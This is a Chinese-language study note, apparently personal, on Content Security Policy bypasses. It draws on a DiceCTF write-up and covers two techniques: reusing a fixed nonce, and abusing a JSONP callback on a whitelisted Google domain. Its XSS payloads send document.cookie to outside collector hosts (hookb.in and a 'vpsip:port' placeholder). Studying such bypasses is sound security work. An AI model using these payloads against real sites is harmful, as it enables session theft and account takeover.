

# 文章
[Content Security Policy (CSP) - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
:::info
注意：<br />If both a [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header and a [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) header are present in the same response, both policies are honored. The policy specified in Content-Security-Policy headers is enforced while the Content-Security-Policy-Report-Only policy generates reports but is not enforced.
:::
# 一些绕过
### 固定的nonce
[DiceCTF: Babier CSP](https://debugmen.dev/ctf-writeup/2021/02/09/babiercsp.html)<br />使用了`const`使得nonce为固定值，直接在javascript标签内加入nonce即可
```javascript
const NONCE = crypto.randomBytes(16).toString('base64');
app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})
```

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==> document.location='https://hookb.in/JKzebMwQPxIJPPWVoqdq/?c=' +document.cookie </script>

<script nonce=g+ojjmb9xLfE+3j9PsP/Ig==>window.location.href="http://vpsip:port/?q="+document.cookie</script>
```
### 限制域名
例如
```html
default-src'self'; script-src 'self' *.google.com;connect-src *
```
可以找寻`*.google.com`的域名来调用一些东西<br />[https://accounts.google.com/o/oauth2/revoke?callback](https://accounts.google.com/o/oauth2/revoke?callback)
```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href='https://hookb.in/9XwRzarbRDS600eMoL7d?'%2bdocument.cookie;"></script>
```
